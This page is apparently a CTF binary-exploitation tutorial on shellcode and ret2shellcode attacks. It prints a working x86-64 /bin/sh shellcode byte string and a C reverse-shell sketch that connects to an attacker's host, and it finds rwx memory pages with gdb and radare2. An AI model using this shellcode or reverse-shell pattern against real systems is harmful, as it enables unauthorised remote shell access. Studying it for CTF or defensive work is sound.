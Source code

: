 # Shellcode

### Example

A very good resource for finding shellcode is shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

I have chosen a Linux x86-64 shellcode which executes /bin/sh

> [http://shell-storm.org/shellcode/files/shellcode-806.php](http://shell-storm.org/shellcode/files/shellcode-806.php)

```python
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### What is it?

Shellcode is essentially our own compiled assembly, which can gain us a "shell". This "shell" is essentially a terminal, in which we can execute our own commands from, such as `ls`, `whoami`, `python -c 'import pty;pty.spawn("/bin/sh")'`, `sudo -l` etc. The way that this is done is by many ways. One way is to create a socket which will listen on the attackers ip and port, and then send a `dup2()` command to bind the attacker's socket to the program's input, output, error.

```c
// Open a TCP connection to an attacker controlled machine or server
sock = socket(AF_INET, SOCK_STREAM);
connect(sock, /* Attacker's ip and port */);

// bind socket to program's stdin/out/err
dup2(sock, 0); // stdin
dup2(sock, 1); // stdout
dup2(sock, 2); // stderr
```

We can compile this, send it over to the binary, and bam, we have a shell!!

However, there is a slight caveat to this. Where are we going to store our shellcode? How can we get it to execute? We can't execute things from the stack, or can we?

This is where we need to have a look at the permissions that certain pages have in the binary. We can get our shellcode to be stored somewhere, or written to, and then executed. For this to happen, we must have a page, or section of the binary which is mapped, to have a `rwx` permission. This'll allow us to `Read, write, execute` any code inside that page. We can view what pages have what permissions by using gdb or radare2:

{% tabs %}
{% tab title="gdb" %}
```c
$ gdb ./file // use --nx if you have an extension for gdb
(gdb) r
^c
(gdb) p (int) getpid()
(gdb) shell cat /proc/pid/maps
```

```java
tango@arch  eXit  gdb --nx ./eXit 
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
(gdb) r
Starting program: /home/euan/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7ed1fb2 in __GI___libc_read (fd=0, buf=0x5555555596b0, nbytes=1024)
    at ../sysdeps/unix/sysv/linux/read.c:26
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
(gdb) p getpid()
'getpid' has unknown return type; cast the call to its declared return type
(gdb) print (int) getpid()
$1 = 7888
(gdb) shell cat /proc/7888/maps
555555554000-555555555000 r--p 00000000 08:05 25165869                   /home/tango/CTF/r2con/easy/eXit/eXit
555555555000-555555556000 r-xp 00001000 08:05 25165869                   /home/tango/CTF/r2con/easy/eXit/eXit
555555556000-555555557000 r--p 00002000 08:05 25165869                   /home/tango/CTF/r2con/easy/eXit/eXit
555555557000-555555558000 r--p 00002000 08:05 25165869                   /home/tango/CTF/r2con/easy/eXit/eXit
555555558000-555555559000 rw-p 00003000 08:05 25165869                   /home/tango/CTF/r2con/easy/eXit/eXit
555555559000-55555557a000 rw-p 00000000 00:00 0                          [heap]
7ffff7dc1000-7ffff7de6000 r--p 00000000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7de6000-7ffff7f5e000 r-xp 00025000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7f5e000-7ffff7fa8000 r--p 0019d000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa8000-7ffff7fa9000 ---p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa9000-7ffff7fac000 r--p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fac000-7ffff7faf000 rw-p 001ea000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7faf000-7ffff7fb5000 rw-p 00000000 00:00 0 
7ffff7fcb000-7ffff7fce000 r--p 00000000 00:00 0                          [vvar]
7ffff7fce000-7ffff7fcf000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fcf000-7ffff7fd0000 r--p 00000000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7fd0000-7ffff7ff3000 r-xp 00001000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ff3000-7ffff7ffb000 r--p 00024000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffc000-7ffff7ffd000 r--p 0002c000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffd000-7ffff7ffe000 rw-p 0002d000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
(gdb) 


```
{% endtab %}

{% tab title="gdb-peda / gdb-gef" %}
```c
$ gdb ./file
gdb-peda$ r
^c
gdb-peda$ vmmap
```

```java
tango@arch  eXit  gdb ./eXit
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
gdb-peda$ r
Starting program: /home/tango/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
[----------------------------------registers-----------------------------------]
...
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	/home/tango/CTF/r2con/easy/eXit/eXit
0x0000555555555000 0x0000555555556000 r-xp	/home/tango/CTF/r2con/easy/eXit/eXit
0x0000555555556000 0x0000555555557000 r--p	/home/tango/CTF/r2con/easy/eXit/eXit
0x0000555555557000 0x0000555555558000 r--p	/home/tango/CTF/r2con/easy/eXit/eXit
0x0000555555558000 0x0000555555559000 rw-p	/home/tango/CTF/r2con/easy/eXit/eXit
0x0000555555559000 0x000055555557a000 rw-p	[heap]
0x00007ffff7dc1000 0x00007ffff7de6000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de6000 0x00007ffff7f5e000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f5e000 0x00007ffff7fa8000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa8000 0x00007ffff7fa9000 ---p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa9000 0x00007ffff7fac000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fac000 0x00007ffff7faf000 rw-p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faf000 0x00007ffff7fb5000 rw-p	mapped
0x00007ffff7fcb000 0x00007ffff7fce000 r--p	[vvar]
0x00007ffff7fce000 0x00007ffff7fcf000 r-xp	[vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
gdb-peda$ 


```
{% endtab %}

{% tab title="radare2" %}
```c
$ r2 -dA ./file
[0x7f92d71ee100]> dcu entry0
[0x55b76f81b1a0]> dm
```

```java
tango@tango  eXit  r2 -dA ./eXit
Process with PID 7600 started...
= attach 7600 7600
bin.baddr 0x55b76f81a000
Using 0x55b76f81a000
asm.bits 64
[Cannot find function at 0x55b76f81b1a0. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x7f92d71ee100]> dcu entry0
Continue until 0x55b76f81b1a0 using 1 bpsize
hit breakpoint at: 55b76f81b1a0
[0x55b76f81b1a0]> dm
0x000055b76f81a000 - 0x000055b76f81b000 - usr     4K s r-- /home/tango/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; sym.imp.__cxa_finalize
0x000055b76f81b000 - 0x000055b76f81c000 * usr     4K s r-x /home/tango/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r_x
0x000055b76f81c000 - 0x000055b76f81d000 - usr     4K s r-- /home/tango/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r
0x000055b76f81d000 - 0x000055b76f81e000 - usr     4K s r-- /home/tango/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.rw
0x000055b76f81e000 - 0x000055b76f81f000 - usr     4K s rw- /home/tango/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; section..data
0x00007f92d6fe3000 - 0x00007f92d7008000 - usr   148K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7008000 - 0x00007f92d7180000 - usr   1.5M s r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7180000 - 0x00007f92d71ca000 - usr   296K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ca000 - 0x00007f92d71cb000 - usr     4K s --- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71cb000 - 0x00007f92d71ce000 - usr    12K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ce000 - 0x00007f92d71d1000 - usr    12K s rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71d1000 - 0x00007f92d71d7000 - usr    24K s rw- unk0 unk0
0x00007f92d71ed000 - 0x00007f92d71ee000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d71ee000 - 0x00007f92d7211000 - usr   140K s r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r_x
0x00007f92d7211000 - 0x00007f92d7219000 - usr    32K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r
0x00007f92d721a000 - 0x00007f92d721b000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.rw
0x00007f92d721b000 - 0x00007f92d721c000 - usr     4K s rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d721c000 - 0x00007f92d721d000 - usr     4K s rw- unk1 unk1 ; map.unk0.rw
0x00007fffae0ae000 - 0x00007fffae0cf000 - usr   132K s rw- [stack] [stack] ; map.stack_.rw
0x00007fffae0f4000 - 0x00007fffae0f7000 - usr    12K s r-- [vvar] [vvar] ; map.vvar_.r
0x00007fffae0f7000 - 0x00007fffae0f8000 - usr     4K s r-x [vdso] [vdso] ; map.vdso_.r_x
0xffffffffff600000 - 0xffffffffff601000 - usr     4K s --x [vsyscall] [vsyscall] ; map.vsyscall_.__x
[0x55b76f81b1a0]> 


```
{% endtab %}
{% endtabs %}

Our plan of attack, to perform a _ret2shellcode_ _attack_, __would be to overflow the buffer, enter in an address which points to an area in the `rwx` memory map and add our shellcode there. When we execute this, it should give us a shell back!!


